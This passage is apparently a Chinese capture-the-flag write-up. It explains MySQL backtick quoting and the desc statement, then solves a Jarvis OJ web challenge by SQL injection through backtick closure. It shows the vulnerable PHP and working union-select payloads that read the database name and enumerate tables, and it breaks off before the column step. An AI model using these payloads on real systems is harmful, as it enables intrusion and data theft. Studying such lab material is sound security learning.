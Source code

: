 

# 反引号及desc的使用

**反引号在mysql中的作用**

反引号 ` 在mysql中是为了区分mysql中的保留字符与普通字符而引入的符号

```
#假如表A中有一列名为select，查询该列
select select from A;   #错误
select `select` from A;  #正确
```

**desc的使用**

很多情况下对表内部结构不熟悉，这时可通过`desc +表名`来查看表结构并将其降序输出

```
#假如存在表flag，用desc(describe)查询该表信息
desc flag A;  #显示flag表信息，别名为A
desc `flag` `A` #与上述语句相同
```

## 相关题目

题目链接：<http://web.jarvisoj.com:32794/>

Hint: 先找到源码再说吧~~

dirsearch扫描，得到源码：<http://web.jarvisoj.com:32794/index.php>~

```
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

可以通过反引号闭合来进行sql注入

> 1.payload: ?table=test`` union select database() limit 1,1

相当于

> mysqli_query($mysqli,"desc \` secret_test\`\` union select database()limit 1,1\`") or Hacker();

得到数据库61d00，接着爆表

> ?table=test``union select group_concat(table_name) from information_schema.tables where table_schema = database() limit 1,1

得到secret_flag,secret_test，接着爆字段：
